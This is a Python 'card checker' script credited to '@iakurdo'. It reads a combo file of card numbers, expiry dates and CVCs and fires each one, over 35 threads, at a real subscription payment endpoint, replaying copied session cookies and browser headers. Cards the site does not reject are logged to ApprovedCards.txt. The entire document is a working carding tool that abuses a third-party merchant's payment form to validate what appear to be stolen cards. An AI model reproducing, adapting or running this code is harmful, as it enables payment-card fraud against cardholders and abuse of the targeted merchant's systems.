 
import requests # Coded By @iakurdo
import threading
from concurrent.futures import ThreadPoolExecutor

def check_card(card_details):
    cn, expm, expy, cv = card_details.strip().split('|')


    expy = expy[-2:]

    cookies = {
        '_ga': 'GA1.1.2110676481.1723988056',
        '_gcl_au': '1.1.1706583181.1723988056',
        'ci_session': 's8fa99prntn3r4tbngo58qcf8p7ibim3',
        '_ga_4HXMJ7D3T6': 'GS1.1.1724229945.2.1.1724230080.0.0.0',
        '_ga_KQ5ZJRZGQR': 'GS1.1.1724229949.2.1.1724230090.9.0.177903783',
    }

    headers = {
        'authority': 'www.lagreeod.com',
        'accept': 'application/json, text/javascript, */*; q=0.01',
        'accept-language': 'en-US,en;q=0.9,ar-EG;q=0.8,ar;q=0.7',
        'content-type': 'application/x-www-form-urlencoded; charset=UTF-8',
        'origin': 'https://www.lagreeod.com',
        'referer': 'https://www.lagreeod.com/subscribe-payment',
        'sec-ch-ua': '"Not-A.Brand";v="99", "Chromium";v="124"',
        'sec-ch-ua-mobile': '?1',
        'sec-ch-ua-platform': '"Android"',
        'sec-fetch-dest': 'empty',
        'sec-fetch-mode': 'cors',
        'sec-fetch-site': 'same-origin',
        'user-agent': 'Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Mobile Safari/537.36',
        'x-requested-with': 'XMLHttpRequest',
    }

    data = {
        'card[name]': 'iakurdoo',
        'card[number]': cn,
        'card[exp_month]': expm,
        'card[exp_year]': expy,
        'card[cvc]': cv,
        'coupon': '',
        's1': '14',
        'sum': '26',
    }

    response = requests.post(
        'https://www.lagreeod.com/register/validate_subscribe_step_3',
        cookies=cookies,
        headers=headers,
        data=data,
    )

    if 'invalid' in response.text.lower() or 'incorrect' in response.text.lower() or 'declined' in response.text.lower():
        print(f" @iakurdo > ➦ {cn}|{expm}|{expy} Declined ⛔")
    else:
        print(f" @iakurdo > ➦ {cn}|{expm}|{expy} Approved ✅")
        with open("ApprovedCards.txt", "a") as file:
            file.write(f"{cn}|{expm}|{expy}|{cv}\n")

def main():
    combo_file = input(" @iakurdo > ^ Name Combo  : ")

    with open(combo_file, "r") as file:
        cards = file.readlines()

    max_workers = 35

    with ThreadPoolExecutor(max_workers=max_workers) as executor:
        executor.map(check_card, cards)

if __name__ == "__main__":
    main()
